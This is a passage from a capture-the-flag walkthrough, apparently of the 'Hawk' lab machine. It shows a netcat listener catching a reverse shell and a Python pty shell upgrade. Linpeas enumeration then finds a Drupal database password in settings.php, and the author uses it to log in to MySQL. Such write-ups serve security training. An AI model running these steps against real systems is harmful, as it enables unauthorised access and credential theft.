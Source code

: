 And start a listener before clicking save:

```bash
nc -lvnp 4444
```

We now have shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/hawk/image%206.png)

Executing linpeas on the target, we find:

```bash
╔══════════╣ Searching passwords in config PHP files                                                                                                     
/var/www/html/sites/default/settings.php:      'password' => 'drupal4hawk',                                                                              

```

Viewing the file more closely:

```bash
$databases = array (                                                                                                                                     
  'default' =>                                                                                                                                           
  array (                                                                                                                                                
    'default' =>                                                                                                                                         
    array (                                                                 
      'database' => 'drupal',                                               
      'username' => 'drupal',                                                                                                                            
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',    
      'prefix' => '',    
    ),               
  ),          
);

```

It’s a mysql login. Let’s try loggin in:

```bash
mysql -h localhost -u drupal -p
```

We are in:
